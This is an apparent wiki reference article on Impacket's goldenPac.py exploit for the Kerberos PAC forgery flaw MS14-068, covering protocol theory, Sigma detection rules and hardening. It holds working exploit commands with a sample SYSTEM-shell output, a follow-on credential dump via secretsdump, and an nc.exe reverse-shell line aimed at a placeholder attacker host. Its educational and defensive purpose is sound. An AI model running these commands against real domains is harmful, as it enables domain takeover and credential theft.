

title: "goldenPac.py"
script: "examples/goldenPac.py"
category: "Exploits"
status: "Published"
protocols:
  - Kerberos
  - SMB
  - SCMR
ms_specs:
  - MS-KILE
  - MS-PAC
  - MS-SMB
cve:
  - CVE-2014-6324
  - MS14-068
mitre_techniques:
  - T1068
  - T1558
  - T1078
  - T1569.002
auth_types:
  - password
  - nt_hash
tags:
  - impacket
  - impacket/examples
  - category/exploits
  - status/published
  - protocol/kerberos
  - protocol/smb
  - cve/CVE-2014-6324
  - patch/MS14-068
  - technique/pac_signature_bypass
  - technique/forged_pac
  - technique/privilege_escalation
  - technique/unkeyed_checksum
  - mitre/T1068
  - mitre/T1558
  - mitre/T1078
  - mitre/T1569/002
aliases:
  - goldenPac
  - impacket-goldenPac
  - ms14-068
  - golden_pac


# goldenPac.py

> **One line summary:** Exploit for MS14-068 (CVE-2014-6324), the Kerberos PAC signature validation vulnerability that allowed any authenticated domain user to forge a Privilege Attribute Certificate claiming Domain Admin membership and have a Domain Controller accept it as legitimate, granting full domain compromise from any regular user credentials; the tool automates the full exploitation chain by obtaining a PAC-less TGT, forging a malicious PAC with MD5 (an unkeyed hash that the vulnerable KDC accepted as a valid PAC signature), embedding it in the encrypted authorization data of a TGS-REQ, and using the resulting privileged service ticket to establish an SMB session and execute arbitrary commands as SYSTEM on any domain joined target. **Historical note: this vulnerability was patched in November 2014; modern domains are not vulnerable, but the exploit remains operationally important as the textbook example of Kerberos PAC validation mechanics that underlies essentially all subsequent Kerberos research.**

| Field | Value |
|:---|:---|
| Script | `examples/goldenPac.py` |
| Category | Exploits |
| Status | Published |
| Vulnerability | CVE-2014-6324 |
| Patch | MS14-068 (November 18, 2014) |
| Primary protocols | Kerberos, SMB, SCMR |
| Primary Microsoft specifications | `[MS-KILE]`, `[MS-PAC]`, `[MS-SMB]` |
| MITRE ATT&CK techniques | T1068 Exploitation for Privilege Escalation, T1558 Steal or Forge Kerberos Tickets, T1078 Valid Accounts, T1569.002 Service Execution |
| Authentication types supported | Password, NT hash |
| First appearance in Impacket | Impacket 0.9.14 (shortly after the vulnerability disclosure) |
| Original contributor to Impacket | Alberto Solino (`@agsolino`), based on PyKEK research by Sylvain Monné (`@BiDOrD`) |


## Prerequisites

This article builds on the Kerberos foundations established earlier in the wiki:

- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for the Impacket stack overview.
- [`GetUserSPNs.py`](../01_recon_and_enumeration/GetUserSPNs.md) for the Kerberos cast of characters, the three exchanges (AS, TGS, AP), and the PAC concept.
- [`ticketer.py`](../02_kerberos_attacks/ticketer.md) for PAC structure and signatures in depth. The MS14-068 exploit is best understood as the historical example that shaped how PAC validation works today.
- [`getTGT.py`](../02_kerberos_attacks/getTGT.md) for the ccache format and TGT mechanics.
- [`psexec.py`](../04_remote_execution/psexec.md) for the post-exploitation step; `goldenPac.py` uses psexec-style execution after obtaining the forged ticket.

Operators who have already read the Kerberos articles will find this article short because the PAC foundations are already established; this article focuses on the specific vulnerability and exploit.


## What it does

`goldenPac.py` is a single-shot exploit for MS14-068. It performs the following chain in one command:

1. Uses the supplied regular-user credentials to request a TGT from the Domain Controller **without** a PAC (by setting `PA-PAC-REQUEST` to `false` in the AS-REQ).
2. Constructs a forged PAC that claims the user is a member of Domain Admins (and Enterprise Admins, Schema Admins, and other powerful groups).
3. "Signs" the forged PAC using an unkeyed hash (MD5), exploiting the fact that the vulnerable KDC treats any signature under 20 bytes as valid.
4. Sends a TGS-REQ containing the PAC-less TGT and the forged PAC in the encrypted authorization data field.
5. The vulnerable DC returns a service ticket with the forged PAC baked in, now signed with the `krbtgt` key (the DC signs it because it trusts the forged "signature" it verified).
6. Uses the resulting service ticket to connect to the target via SMB with Domain Admin privileges.
7. Performs the standard psexec-style execution pattern: uploads a service binary, creates a service, starts it, interacts via a semi-interactive shell, cleans up.

The tool has two primary modes of use:

- **Default: direct shell.** Runs the full chain and drops the operator into an interactive shell on the target.
- **`-c <file>` upload and execute:** uploads a specified binary and runs it with the supplied arguments.
- **`-w <file>` save TGT only:** writes the forged TGT to a ccache file instead of pivoting to SMB. The operator can then use the ticket with other Impacket tools.

The tool requires only:

- Valid credentials for any regular domain user.
- The user's Security Identifier (SID).
- Network access to the DC (for Kerberos) and the target (for SMB).
- Clock synchronization with the DC (Kerberos rejects tickets with excessive skew).

That is it. No local admin, no pre-existing compromise, no protocol downgrade, no user interaction. Any domain user becomes Domain Admin if the DC is vulnerable.


## Why it exists

On November 18, 2014, Microsoft released security bulletin MS14-068 and the accompanying patch for CVE-2014-6324. The vulnerability allowed any authenticated domain user to forge a Kerberos PAC and have it accepted by a Domain Controller, granting arbitrary privilege escalation within the domain.

The bug was found internally by Microsoft and publicly disclosed via the patch. Within days, security researchers had reverse engineered the fix. Sylvain Monné (`@BiDOrD`) published the Python Kerberos Exploitation Kit (PyKEK) shortly after, which Alberto Solino then adapted into Impacket as `goldenPac.py`.

The vulnerability's severity was extraordinary: any standard user in any domain with an unpatched DC could escalate to Domain Admin immediately, with no lateral movement, no credential theft, no software installation. This made it one of the highest-impact bugs ever disclosed for Active Directory environments.

**The vulnerability is patched on every Windows version that is still supported.** The November 2014 patch fixed the validation logic. There is no currently unpatched Windows Server running in supported configurations. `goldenPac.py` therefore has limited operational relevance in modern environments.

The tool remains in Impacket and in this wiki for three reasons:

1. **Historical education.** MS14-068 is the textbook example of how Kerberos PAC validation should work, what happens when it goes wrong, and how an attacker weaponizes the flaw. Every subsequent Kerberos attack technique (Golden Tickets, Silver Tickets, Sapphire Tickets, KB5008380 bypasses) builds on the PAC concepts that MS14-068 made famous.
2. **Legacy environments.** Unpatched Windows Server 2003 and early 2008 R2 systems still exist in some industrial, government, and research environments. These systems are vulnerable to this day. An operator who encounters such a system in scope can still exploit MS14-068.
3. **Pattern recognition.** The forged-PAC-in-authorization-data technique has close relatives in newer research (e.g., certain S4U attack variations). Understanding the original exploit makes the pattern recognizable in related contexts.

The tool is not recommended for casual use against modern environments. It will either fail cleanly (patched DC ignores the forged PAC and returns an unprivileged ticket) or, more rarely, succeed against an ancient system that should have been decommissioned years ago.


## The protocol theory

This section focuses on what makes MS14-068 work. It assumes familiarity with the Kerberos foundations established in [`GetUserSPNs.py`](../01_recon_and_enumeration/GetUserSPNs.md) and PAC mechanics from [`ticketer.py`](../02_kerberos_attacks/ticketer.md).

### The PAC validation design

When a KDC issues a service ticket, the ticket contains a Privilege Attribute Certificate specifying the user's group memberships, SID, and other authorization data. The PAC is signed twice:

- **Server signature:** signed with the target service's key. Protects against modification by the user.
- **KDC signature:** signed with the `krbtgt` key. Protects against the service accepting PACs from unauthorized sources.

The design intent: a service verifies the server signature (using its own key, which it knows). The service cannot verify the KDC signature directly (it does not have `krbtgt`), but it trusts the KDC signature transitively: if the server signature is valid, the PAC came from the KDC, and the KDC would have included a valid KDC signature. When a service needs strict validation, it can forward the PAC to the KDC for verification.

### The TGS-REQ authorization data field

A TGS-REQ message can carry encrypted authorization data (`enc-authorization-data`) from the client to the KDC. This field is encrypted with the client's session key (which the KDC knows). Its legitimate use: the client requests specific authorization assertions to be included in the returned ticket, typically for constrained delegation scenarios.

**Before MS14-068, the KDC would extract a PAC from this field, verify its signature, and if the signature was valid, copy the PAC into the service ticket it returned.** The KDC would then sign the copied PAC with its own (server and KDC) signatures before returning the ticket.

This workflow trusts the client-supplied PAC contents conditional on the signature being valid. If the client cannot forge a valid signature, they cannot forge a PAC.

### The unkeyed checksum flaw

The vulnerability: the KDC's signature validation accepted checksums of length up to 20 bytes **regardless of algorithm**. This included MD5 (`CKSUMTYPE_MD5`, length 16 bytes), which is unkeyed.

An unkeyed hash like MD5 is not a signature in the cryptographic sense; anyone can compute it. The correct behavior would be to only accept keyed checksums (HMAC with the appropriate key). The vulnerable code failed to enforce this.

Concretely, the `KdcVerifyPacSignature` function in the Key Distribution Center Service (`kdcsvc.dll`) checked only that:

- The signature type was in a list of recognized checksum types.
- The signature length matched what was expected for that checksum type.

It did not verify that the checksum type was keyed. MD5 was on the accepted list.

### The exploitation chain

Putting these pieces together, the MS14-068 exploit works as follows:

1. **Request a PAC-less TGT.** The attacker sends an AS-REQ with `PA-PAC-REQUEST` set to false. The KDC returns a TGT without an embedded PAC. This ticket is valid but contains no privilege assertions; using it directly would fail privileged operations.

2. **Forge a PAC.** The attacker constructs a new PAC from scratch, claiming the user belongs to Domain Admins (RID 512), Enterprise Admins (RID 519), Schema Admins (RID 518), and any other useful groups. The PAC's `Logon_Info` structure holds these claims.

3. **"Sign" with MD5.** The attacker computes MD5 hashes of the relevant PAC sections and populates the Server Signature and KDC Signature fields with these hashes. The sections are labeled with the checksum type `CKSUMTYPE_MD5` (value 7) and the 16 byte MD5 values.

4. **Embed the PAC in TGS-REQ.** The attacker builds a TGS-REQ using the PAC-less TGT. In the `enc-authorization-data` field, they include an authorization element of type `AD-IF-RELEVANT` containing the forged PAC.

5. **Send to KDC.** The vulnerable KDC:
    - Decrypts the authorization data with the client's session key.
    - Extracts the PAC.
    - Runs `KdcVerifyPacSignature`, which accepts the MD5 "signatures".
    - Treats the PAC as valid.
    - Copies the PAC's contents into the service ticket it constructs.
    - Signs the new PAC with the target service's key and `krbtgt` (creating real valid signatures).
    - Returns the service ticket.

6. **Use the service ticket.** The returned ticket contains a PAC that now claims Domain Admin membership and is signed with real, valid signatures. The target service (typically `cifs/target` for SMB) accepts the ticket, consults the PAC, and grants Domain Admin rights.

### Why the fix was straightforward

The November 2014 patch added validation that the checksum type used in PAC signatures is a **keyed** type, specifically HMAC-SHA1 (checksum type 16) or similar. Unkeyed types like MD5 are rejected.

The patch also added defense in depth: the KDC now verifies the PAC signature against the client's identity, not just the checksum format. Even if a future bug allowed a new type of forged signature, the KDC would catch the mismatch between the claimed identity in the PAC and the actual client identity.

Subsequent work continued to harden PAC validation. KB5008380 (November 2021) added the PAC Attributes field and further signature requirements; Microsoft's ongoing hardening of Kerberos includes additional PAC validation that prevents a growing class of forged-PAC attacks.

### Why this is "Golden PAC" not "Golden Ticket"

The name `goldenPac` reflects that the exploit forges a PAC with golden-ticket-like power (Domain Admin claims) without needing the krbtgt key that a true Golden Ticket requires. The two attacks are cousins:

- **Golden Ticket** (post-compromise): the attacker has the krbtgt hash; they forge a full TGT with any PAC they want. Requires prior full domain compromise.
- **Golden PAC** (MS14-068 exploit): the attacker has ordinary user credentials; they forge a PAC that the unpatched KDC accepts and re-signs. Requires only regular user access and a vulnerable DC.

[`ticketer.py`](../02_kerberos_attacks/ticketer.md) creates Golden Tickets. `goldenPac.py` creates Golden PACs. The `goldenPac.py` name predates the more general "Golden/Silver/Sapphire Ticket" taxonomy that coalesced later; it reflects the time-of-writing (late 2014) vocabulary.


## How the tool works internally

The implementation is a translation of Sylvain Monné's PyKEK research into the Impacket ecosystem.

1. **Argument parsing.** Target string with credentials, optional `-c` to upload an arbitrary binary, optional `-w` to save the TGT and exit.

2. **SID resolution.** The attacker's SID is needed for the PAC's `Logon_Info` structure. The tool looks up the SID via LSAT query (MS-LSAT, same mechanism as [`lookupsid.py`](../01_recon_and_enumeration/lookupsid.md)).

3. **AS-REQ for PAC-less TGT.** Construct an AS-REQ with `KERB-PA-PAC-REQUEST` pre-authentication structure with `include-pac = false`. Send to DC, receive AS-REP, extract the TGT and session key.

4. **Forge the PAC.** Build a `PAC_TYPE` structure containing:
    - `LogonInfo` (PAC_LOGON_INFO_TYPE, type 1): user's SID, group RIDs (512, 513, 518, 519, 520), logon timestamps.
    - `ClientInfo` (PAC_CLIENT_INFO_TYPE, type 10): username and client ID.
    - `ServerChecksum` (PAC_SERVER_CHECKSUM, type 6): 16 byte MD5 hash with checksum type 7.
    - `PrivilegeServerChecksum` (PAC_PRIVSVR_CHECKSUM, type 7): 16 byte MD5 hash with checksum type 7.

5. **Build authorization data.** Wrap the forged PAC in an `AD-WIN2K-PAC` authorization data element (type 128). Wrap that in an `AD-IF-RELEVANT` element (type 1). Encode as ASN.1.

6. **TGS-REQ.** Construct a TGS-REQ with:
    - Padata containing the PAC-less TGT's authenticator.
    - Enc-authorization-data set to the forged PAC authorization data, encrypted with the user's session key.
    - SName set to `cifs/target.domain.fqdn` for SMB access (or `krbtgt/domain` if the goal is a privileged TGT for reuse).

7. **Receive and validate response.** Parse the TGS-REP. Extract the service ticket. Log success. If the DC returned a valid ticket, the exploit succeeded.

8. **Pivot to SMB.** Use the returned ticket to establish an SMB session with the target. Standard psexec-style workflow from there:
    - Connect to the target's `ADMIN$` share.
    - Upload a service binary (RemComSvc, matching [`psexec.py`](../04_remote_execution/psexec.md)).
    - Create a service via SCMR.
    - Start the service.
    - Run the interactive shell.
    - Clean up the service and binary.

9. **If `-w`:** skip the SMB pivot; write the ticket to a ccache file and exit. The operator can use the ticket with other tools.

10. **If `-c <path>`:** upload the specified binary and execute it with the command-line arguments supplied after the target.


## Authentication options

Only password and hash authentication are supported. The tool does not accept AES keys or existing ccache files because the exploit requires a standard AS-REQ exchange that does not fit the pre-existing-ticket pattern.

### Cleartext password

```bash
goldenPac.py CORP.LOCAL/lowpriv:'P@ss'@dc01.corp.local
```

Note the requirement for **FQDN** of the target. NetBIOS names do not work because Kerberos depends on exact name matching between the ticket and the target service.

### NT hash (pass the hash)

```bash
goldenPac.py CORP.LOCAL/lowpriv@dc01.corp.local -hashes :<nthash>
```

### Minimum required privileges

- Any valid domain user account.
- Network reachability to the DC (TCP 88 for Kerberos, TCP 135/445 for SMB lookups).
- Network reachability to the target (typically TCP 445).
- Clock synchronized to within 5 minutes of the DC (Kerberos default skew tolerance).

The tool explicitly does not need local admin anywhere, domain admin, or any elevated privilege. The entire point of the exploit is that a regular user becomes Domain Admin.


## Practical usage

### Run the full chain and get a shell

```bash
goldenPac.py -dc-ip 192.168.1.10 -target-ip 192.168.1.10 \
  CORP.LOCAL/lowpriv:'P@ss'@dc01.corp.local
```

Note the target here is the DC itself; `goldenPac.py` can target the DC because the forged ticket authorizes SMB access to any machine the user now claims to have rights on.

Output on a vulnerable system:

```text
[*] User SID: S-1-5-21-3211488530-130973289-431960246-1104
[*] Attacking domain controller dc01.corp.local
[*] dc01.corp.local found vulnerable!
[*] Requesting shares on dc01.corp.local.....
[*] Found writable share ADMIN$
[*] Uploading file tXLpAWiu.exe
[*] Opening SVCManager on dc01.corp.local.....
[*] Creating service TKWq on dc01.corp.local.....
[*] Starting service TKWq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

The shell is running as `NT AUTHORITY\SYSTEM` on the DC.

### Save the TGT only for later use

```bash
goldenPac.py CORP.LOCAL/lowpriv:'P@ss'@dc01.corp.local -w privileged.ccache
```

Writes the forged-PAC service ticket to the ccache file without pivoting. The file can then be used with other Impacket tools:

```bash
export KRB5CCNAME=privileged.ccache
secretsdump.py -k -no-pass -just-dc CORP.LOCAL/lowpriv@dc01.corp.local
```

This is the more flexible workflow. The ticket is valid for standard Kerberos uses; any Impacket tool that accepts Kerberos authentication can leverage it.

### Upload and execute a custom binary

```bash
goldenPac.py -c ./nc.exe CORP.LOCAL/lowpriv:'P@ss'@dc01.corp.local \
  'attacker_ip listener_port -e cmd.exe'
```

Uploads the specified binary (here `nc.exe`) and executes it with the supplied arguments. Useful for dropping a custom payload rather than using the default interactive shell.

### Testing a DC for vulnerability

```bash
goldenPac.py CORP.LOCAL/lowpriv:'P@ss'@dc01.corp.local 2>&1 | head -20
```

If the DC is vulnerable, the output contains "found vulnerable!" followed by successful privilege escalation. If patched, the exploit fails at the PAC verification step:

```text
[*] Attacking domain controller dc01.corp.local
[-] Kerberos SessionError: KRB_AP_ERR_MODIFIED
```

Or similar error. A patched DC rejects the forged PAC cleanly.

### Key flags

| Flag | Meaning |
|:---|:---|
| `target` (positional) | `[[domain/]username[:password]@]<targetFQDN>`. Target FQDN is required for Kerberos. |
| `-dc-ip <ip>` | Explicit DC IP if DNS resolution is unreliable. |
| `-target-ip <ip>` | Explicit target IP. |
| `-hashes <LM:NT>` | NTLM hash authentication. |
| `-c <path>` | Upload and execute a specific binary. |
| `-w <path>` | Save TGT to ccache and exit. Do not pivot to SMB. |
| `command` (positional, optional) | Command (or arguments) to execute at the target. |
| `-debug` | Verbose debug output. |

The argument set is deliberately small. Most complexity is in the exploit itself, not in configuration options.


## What it looks like on the wire

The network signature of MS14-068 exploitation is distinctive.

### AS-REQ without PAC request

The initial AS-REQ contains a `KERB-PA-PAC-REQUEST` with `include-pac = false`. This is an unusual configuration; most legitimate Windows clients request a PAC. Wireshark will decode this as:

```text
kerberos.req_body.padata[n].padata-type = pa-pk-as-req (137) or similar
kerberos.KERB-PA-PAC-REQUEST.include-pac = False
```

### TGS-REQ with enc-authorization-data

The TGS-REQ contains an encrypted authorization data field. Presence of this field on a normal user's TGS-REQ is itself unusual (most users do not include authorization data in TGS requests). Inspection:

```text
kerberos.tgs_req.enc_authorization_data  [present, encrypted]
kerberos.enc_authorization_data_kvno    [padata kvno]
```

The content is encrypted with the user's session key and cannot be inspected at the network layer without the key.

### Distinctive TGS-REP

If the exploit succeeds, the returned TGS-REP contains a service ticket with a PAC claiming Domain Admin privileges for a user who is not actually a Domain Admin. This cannot be detected at the network layer (the ticket is encrypted for the service), but it can be detected post-hoc if the service's logs capture the PAC claims.

### Wireshark filters

```text
kerberos                                   # all Kerberos traffic
kerberos.req_body.sname.name-string contains "cifs"   # service ticket for SMB
kerberos.tgs_req                            # TGS requests specifically
```

Kerberos traffic volume makes network-level MS14-068 detection impractical in most environments. Endpoint-level detection is more effective.


## What it looks like in logs

The DC and target systems log the exploitation's artifacts, some of which are distinctive.

### Event 4768: A Kerberos authentication ticket (TGT) was requested

Fires on the DC when the attacker requests the PAC-less TGT. Normal fields, but the `TicketOptions` field may show unusual flags. The AS-REP issued is a TGT that does not contain a PAC.

### Event 4769: A Kerberos service ticket was requested

Fires on the DC when the attacker sends the TGS-REQ with the forged PAC. Key fields:

| Field | Value |
|:---|:---|
| TargetUserName | The target service principal (e.g., `cifs/dc01.corp.local`). |
| ServiceName | The service being requested. |
| TicketOptions | Flags in the request. |
| TicketEncryptionType | The encryption type. |

The request itself looks normal; the forged PAC inside the encrypted authorization data is invisible to the event log subsystem.

### Event 4624: An account was successfully logged on

Fires on the target when the attacker's SMB session is established. The `LogonType` is 3 (Network). The `AuthenticationPackageName` is `Kerberos`. The account logged on is the attacker's regular user account, but the privileges granted (via the forged PAC) are Domain Admin.

**This is the distinctive signal:** a regular user account authenticates, and the resulting token claims Domain Admin privileges. The mismatch between the expected and actual privileges of the account is diagnostic.

### Event 4672: Special privileges assigned to new logon

Fires on the target when the forged PAC grants administrator-class privileges. Fields:

- `SubjectUserSid`: the attacker's SID.
- `PrivilegeList`: `SeDebugPrivilege`, `SeBackupPrivilege`, `SeLoadDriverPrivilege`, etc.

A regular user triggering 4672 is anomalous. In combination with the account not being in Domain Admins, this is essentially diagnostic of MS14-068 or a similar PAC forgery attack.

### Event 4625: An account failed to log on

Fires if the exploit fails (patched DC returns an unprivileged ticket, SMB rejects the subsequent connection). Failed PAC-based privilege escalation attempts appear in the target's logs as authentication failures.

### Starter Sigma rules

```yaml
title: MS14-068 Forged PAC Exploitation
logsource:
  product: windows
  service: security
detection:
  selection_logon:
    EventID: 4624
    LogonType: 3
    AuthenticationPackageName: 'Kerberos'
  selection_admin:
    EventID: 4672
  filter_domain_admins:
    SubjectUserSid: 'S-1-5-21-*-512'  # Domain Admins RID
    # This would filter normal DA logons; actual rule would
    # require exclusion based on known DA account list
  condition: selection_logon and selection_admin
level: high
```

Detects the logon/4672 pair from a non-DA principal. Needs environment-specific tuning for the legitimate DA accounts.

```yaml
title: PAC-less TGT Request
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4768
    # The PAC-less request is not directly exposed in 4768 fields,
    # but correlating with subsequent ticket usage can indicate it
  condition: selection
level: informational
```

Hard to implement cleanly because 4768 does not natively expose the `include-pac` flag. Environments with advanced DC logging (custom audit configurations or specialized AD security products) may be able to detect this.

```yaml
title: Suspicious Kerberos Privilege Escalation
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4672
    PrivilegeList|contains: 'SeDebugPrivilege'
  filter_known_admins:
    SubjectUserSid|exists_in: known_admin_sids
  condition: selection and not filter_known_admins
level: critical
```

Catches the "regular user with admin privileges" pattern. High fidelity but requires maintaining the known admin SID list.


## Detection and defense

### Detection opportunities

**Any indication of a regular user having admin privileges on a DC or sensitive server.** Event 4672 with an unexpected user is the diagnostic signal, regardless of the specific exploitation technique used.

**Microsoft Defender for Identity.** MDI specifically detects Golden Ticket forgeries and several Kerberos abuse patterns. MS14-068 style attacks fall within its detection scope.

**Command execution following Kerberos authentication from unexpected principals.** If a regular user suddenly executes commands as SYSTEM on a DC, that is diagnostic regardless of how they got there.

**Service creation and process patterns.** The post-exploitation phase (SMB connection, service creation via SCMR, process spawn) uses the same patterns as [`psexec.py`](../04_remote_execution/psexec.md). Detection rules for psexec-style activity catch the tail end of the exploitation chain.

### Preventive controls

**Apply MS14-068.** Patched in November 2014. No current Windows Server out of extended support is vulnerable. Organizations running ancient unpatched Windows Server 2003/2008 should patch immediately; if patching is not possible, those systems should be isolated from domain services that matter.

Beyond the specific MS14-068 patch, related hardening:

- **KB5008380 (November 2021).** Adds PAC Attributes field and further signature requirements. Should be applied to all DCs.
- **Enforce Kerberos Armoring (FAST).** Prevents some Kerberos traffic manipulation, though not directly MS14-068.
- **Use AES keys only where possible.** Disable RC4 in Kerberos for supported systems. Reduces the overall Kerberos attack surface.
- **Monitor for 4672 anomalies.** Detect unexpected privileges on any account.
- **Tier 0 isolation.** DCs should be treated as Tier 0; access from regular workstations should be highly restricted.
- **Microsoft Defender for Identity.** Deploys on DCs to provide specialized Kerberos attack detection.
- **Decommission ancient systems.** Any Windows Server 2003 or pre-patch 2008 still running in 2026 represents a systemic risk far beyond just MS14-068.


## Related tools and attack chains

`goldenPac.py` opens the Exploits category as its first article. The other stub in the category:

- **`sambaPipe.py`** for CVE-2017-7494 (Samba "Is this MS17-010 but for Samba?"). Different target (Samba file servers) but similar "one-shot exploit" category.

### Related Impacket tools

- [`getTGT.py`](../02_kerberos_attacks/getTGT.md) and [`getST.py`](../02_kerberos_attacks/getST.md) for standard Kerberos ticket operations.
- [`ticketer.py`](../02_kerberos_attacks/ticketer.md) for Golden Ticket forgery after full compromise. `goldenPac.py` forges PACs with regular user credentials; `ticketer.py` forges full tickets with the krbtgt hash.
- [`secretsdump.py`](../03_credential_access/secretsdump.md) as a typical post-exploitation follow-up once the MS14-068 exploit has yielded Domain Admin access.
- [`psexec.py`](../04_remote_execution/psexec.md) uses the same SMB + SCMR + RemComSvc pattern that `goldenPac.py` uses for its shell-drop.

### External tools

- **PyKEK** (Python Kerberos Exploitation Kit) at historical archives. The original MS14-068 proof of concept by Sylvain Monné. `goldenPac.py` is its Impacket-integrated descendant.
- **Metasploit** `auxiliary/admin/kerberos/ms14_068_kerberos_checksum`. Metasploit module for the same vulnerability.
- **Rubeus** `tgtdeleg` and related functionality for Windows-side Kerberos attacks. Not an MS14-068 exploit per se but part of the Kerberos exploitation ecosystem.

### The historical attack chain (before November 2014)



The speed of the chain was remarkable: from regular user credentials to Domain Admin in under a second of network traffic. This made MS14-068 uniquely dangerous compared to multi-step attack chains.

### Why this matters for modern Kerberos research

MS14-068 is worth understanding because the PAC validation pattern it exposed underlies essentially every subsequent Kerberos attack:

- **Golden Tickets** ([`ticketer.py`](../02_kerberos_attacks/ticketer.md)) depend on the server signature being correctly keyed; the attacker substitutes their own krbtgt hash.
- **Sapphire Tickets** (post-KB5008380) depend on the PAC Attributes and signature chain introduced as a hardening response to the family of PAC forgery attacks MS14-068 pioneered.
- **S4U2Self + PAC substitution attacks** ([`getST.py`](../02_kerberos_attacks/getST.md)) depend on understanding which PAC fields the KDC will replicate into new tickets.
- **Shadow Credentials / PKINIT-based attacks** depend on understanding the PAC signing workflow for PKINIT-derived credentials.

Reading about MS14-068, walking through the exploit mechanics, and understanding the fix is foundational to understanding all of these newer techniques.


## Further reading

- **Microsoft Security Bulletin MS14-068** at `https://learn.microsoft.com/en-us/security-updates/SecurityBulletins/2014/ms14-068`. The original advisory.
- **CVE-2014-6324** entry. The CVE database record.
- **WithSecure Labs "Digging into MS14-068, Exploitation and Defence"** at `https://labs.withsecure.com/publications/digging-into-ms14-068-exploitation-and-defence`. The definitive technical analysis of the vulnerability, written shortly after disclosure.
- **Sylvain Monné PyKEK research** at historical archives. The original proof of concept.
- **The Hacker Recipes "MS14-068"** at `https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/ms14-068`. Modern practical guide including how to verify whether the attack succeeded.
- **Microsoft "Kerberos PAC Validation Changes"** documentation for the patched behavior.
- **Will Schroeder "Attacking Kerberos"** blog posts at SpecterOps. Broader Kerberos attack context including post-MS14-068 techniques.
- **`[MS-PAC]`: Privilege Attribute Certificate Data Structure** at `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/`. The authoritative PAC specification.
- **`[MS-KILE]`: Kerberos Protocol Extensions** at `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/`. The Kerberos profile for Windows.
- **KB5008380** at `https://support.microsoft.com/en-us/topic/kb5008380`. Later Kerberos hardening that builds on the MS14-068 fix.
- **MITRE ATT&CK T1068** at `https://attack.mitre.org/techniques/T1068/`. Exploitation for Privilege Escalation.

If you want to internalize the exploit (recognizing its historical status), set up a lab with an unpatched Windows Server 2008 R2 DC (which is no longer supported and should only exist in isolated lab networks). Join a Windows 7 workstation. Create a regular user account. From a Linux attack host, run `goldenPac.py` with the regular user's credentials targeting the DC. Observe the full chain succeed: AS-REQ, TGS-REQ, SMB connection, service creation, SYSTEM shell on the DC. Then apply the MS14-068 patch and repeat: observe the exploit fail at the TGS-REQ step with `KRB_AP_ERR_MODIFIED`. The before-and-after comparison makes the PAC validation mechanism concrete and gives you a baseline understanding of every subsequent Kerberos research topic. Once you have seen the original bug in action, modern techniques that build on PAC mechanics are easy to contextualize.
